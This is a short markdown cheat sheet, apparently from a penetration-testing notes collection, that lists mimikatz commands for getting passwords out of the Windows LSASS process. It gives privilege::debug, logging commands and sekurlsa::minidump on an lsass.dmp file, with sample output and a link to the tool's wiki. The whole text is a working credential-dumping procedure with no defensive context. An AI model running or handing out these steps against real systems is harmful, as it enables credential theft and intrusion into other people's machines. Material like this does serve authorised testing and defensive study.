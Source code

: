 # Dumping Passwords from LSASS

**Must have SeDebugPrivilege**

```
mimikatz# privilege::debug
Privilege '20' OK
```

Checking if debug levels are correct

```
mimikatz# log <log_file>
Using 'log_file' for logfile : OK

mimikatz# log /stop
```

Turning on logging to output to file (Starting and stopping)

```
mimikatz# sekurlsa::minidump lsass.dmp
```

Dumping password from lsass dump

**References:**
* https://github.com/gentilkiwi/mimikatz/wiki/module-~-sekurlsa
